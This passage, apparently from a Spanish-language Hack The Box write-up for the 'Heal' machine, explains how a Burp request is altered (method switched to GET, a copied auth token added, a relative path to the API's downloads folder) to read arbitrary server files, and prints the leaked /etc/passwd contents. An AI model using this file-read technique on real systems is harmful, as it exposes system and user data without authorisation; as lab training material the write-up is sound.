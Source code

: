 [![burp](/assets/img/posts/heal_htb/peticionmod.png)](/assets/img/posts/heal_htb/peticionmod.png)

1. **Cambiamos de OPTIONS a GET**
2. **Necesitamos autenticar la petición ya que de lo contrario no la realiza**
    - Para esto podemos copiar el token de las peticiones export por ejemplo y pegarlo en las cabeceras
3. **Ubicamos la ruta relativa de la carpeta downloads de la API para poder acceder al contenido deseado**

Ahora si podemos extraer contenido de ficheros en el servidor

```bash

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
```